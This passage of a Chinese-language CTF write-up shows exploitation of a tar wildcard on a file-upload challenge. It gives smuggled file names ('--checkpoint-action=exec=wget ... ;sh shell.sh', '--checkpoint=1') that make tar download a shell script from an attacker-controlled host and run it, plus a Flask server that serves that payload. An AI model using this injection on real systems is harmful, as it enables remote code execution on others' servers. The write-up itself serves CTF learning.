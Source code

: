 在本地调试过程中发现下面几个现象：

- 上传的文件内容都是空的
- 文件名中不能含有斜杆及反引号，否则上传失败
- 发包过程中无需使用`${IFS}`绕过`sh shell.sh`的空格
- tar cf out.tar *的操作时，除了上面需要的两个参数外，必须存在一个其他文件，否则无法执行命令

这是测试过程中，存在`2.txt`时才执行`touch 1.txt`的命令

![33](/medias/buildCTF/33.png)

在以上条件下，最终我选择在远程服务器通过flask提供一个sh文件的下载，通过wget下载到靶机，通过修改服务器的sh文件内容实现执行不同命令

通过bp发送下面的文件名的文件

- 2.txt
- --checkpoint-action=exec=wget -O shell.sh ip:5000;sh shell.sh
- --checkpoint=1

在远程服务器上创建`app.py`,`shell.sh`文件

```python
from flask import Flask, send_file, abort

app = Flask(__name__)

@app.route('/')
def download_file():
    file_path = './shell.sh'
    
    try:
        return send_file(file_path, as_attachment=True, download_name='script.sh', mimetype='application/x-sh')
    except FileNotFoundError:
        abort(404)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000)
```
